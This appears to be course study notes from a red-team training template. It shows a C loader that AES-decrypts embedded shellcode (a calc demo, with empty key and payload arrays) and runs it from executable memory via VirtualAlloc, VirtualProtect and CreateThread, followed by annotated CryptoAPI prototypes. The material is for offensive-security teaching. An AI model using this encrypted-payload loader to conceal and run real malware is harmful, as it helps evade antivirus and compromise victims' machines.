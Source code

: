 
Code snippet
```c
/*

 Red Team Operator course code template
 payload encryption with AES
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	char key[] = 
	unsigned char calc_payload[] = 
	unsigned int calc_len = sizeof(calc_payload);
	
	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decrypt payload
	AESDecrypt((char *) calc_payload, calc_len, key, sizeof(key));
	
	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

---

Encrypt payload - take the key
```bash
python aesencrypt.py calc.bin
```

---

In Windows API, you can use and older **Cryptographic API (CryptoAPI)** to perform AES encryption and decryption with functions like `CryptAcquireContextW()`, `CryptHashData()`, `CryptEncrypt()` or `CryptDecrypt()`. But Win API delivers another, newer API - the **Cryptography API: Next Generation** (CNG) with several functions for AES, ex. `BCryptOpenAlgorithmProvider()`, `BCryptGenerateSymmetricKey()`, `BCryptEncrypt()`, etc.

#### Decrypting AES payload algorithm (C-like pseudo-code)

```c
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```

---
#### Key Windows API functions

[**_CryptAcquireContextW()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) is used to acquire a handle to a **Cryptographic Service Provider** (CSP) and, if necessary, to create a new key container. In other words, this function helps to establish a cryptographic context that allows applications to access and use cryptographic services provided by the CSP. A CSP is a software module that implements cryptographic algorithms and provides services such as encryption, decryption, hashing, and digital signatures. This function can be found in the _advapi32.dll_ library.

`CryptAcquireContextW()` function has the following prototype:

```c
BOOL WINAPI CryptAcquireContextW(
  HCRYPTPROV *phProv,        // pointer to a handle of a CSP [out param]
  LPCWSTR    pszContainer,   // key container name (null-terminated string). When dwFlags is set to CRYPT_VERIFYCONTEXT, pszContainer must be set to NULL
  LPCWSTR    pszProvider,    // null-terminated string that contains the name of the CSP to be used. If NULL == default provider
  DWORD      dwProvType,    // type of provider to acquire, ex. PROV_RSA_FULL, PROV_RSA_AES, PROV_DSS_DH, etc.
  DWORD      dwFlags        // flag values, usually set to zero. CRYPT_VERIFYCONTEXT for ephemeral keys
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptCreateHash()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is used to create a handle to a hash object for a particular hash algorithm. This function can be found in the _advapi32.dll_ library.

`CryptCreateHash()` function has the following prototype:

```c
BOOL WINAPI CryptCreateHash(
  HCRYPTPROV hProv,    // handle to a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,    // identifies the hash algorithm to use, ex. CALG_SHA_256, CALG_AES_128, CALG_ECDH, etc.
  HCRYPTKEY  hKey,     // type of hash algorithm is a keyed hash (like MAC or HMAC). Zero if nonkeyed algos
  DWORD      dwFlags,  // 0 or CRYPT_SECRETDIGEST (not used)
  HCRYPTHASH *phHash   // address to which the function copies a handle to the new hash object (pointer)
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptHashData()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) is used for hashing data using various hash algorithms provided by the operating system. This function can be found in the _advapi32.dll_ library.

`CryptHashData()` function has the following prototype:

```c
BOOL CryptHashData(
  HCRYPTHASH hHash,      // handle of the hash object
  const BYTE *pbData,    // pointer to a buffer that contains the data to be added to the hash object (the key) must be casted
  DWORD      dwDataLen,  // number of bytes of data to be added (keyl lenght) must be casted
  DWORD      dwFlags     // 0 - nothing, 0x1 - CRYPT_USERDATA
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptDeriveKey()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey) generates cryptographic [session keys](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/s-gly) derived from a base data value. This function guarantees that when the same CSP and algorithms are used, the keys generated from the same base data are identical. The base data can be a password or any other user data. This function can be found in the _advapi32.dll_ library.

> Basically you give it a hash of your secret material, tell it “make an AES key from that,” and it returns a usable key object.

`CryptDeriveKey()` function has the following prototype:

```c
BOOL CryptDeriveKey(
  HCRYPTPROV hProv,      // handle of a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,      // identifies the hash algorithm to use, ex. CALG_AES_256, CALG_AES_128, CALG_ECDH, etc. 
  HCRYPTHASH hBaseData,  // handle to a hash object that has been fed the exact base data
  DWORD      dwFlags,    // type of key generated, can be zero or one or more values, ex. CRYPT_CREATE_SALT, CRYPT_EXPORTABLE, CRYPT_UPDATE_KEY, etc.
  HCRYPTKEY  *phKey      // pointer to a variable to receive the address of the handle of the newly generated key
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).


---

[**_CryptDecrypt()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt) is used for decrypting encrypted data using the same cryptographic key. This function can be found in the _advapi32.dll_ library.

`CryptDecrypt()` function has the following prototype:

```c
BOOL CryptDecrypt(
  HCRYPTKEY hKey,        // handle to the key to use for the decryption
  HCRYPTHASH hHash,      // handle to a hash object. If no hash, must be zero
  BOOL      Final,       // specifies whether this is the last section in a series being decrypted. If TRUE - the last block.
  DWORD     dwFlags,     // possible values: CRYPT_OAEP or CRYPT_DECRYPT_RSA_NO_PADDING_CHECK
  BYTE      *pbData,     // pointer to a buffer that contains the data to be decrypted. After the decryption, the plaintext is placed back into this same buffer.
  DWORD     *pdwDataLen  // length of the pbData buffer
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

#### Cleanup

```c
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
```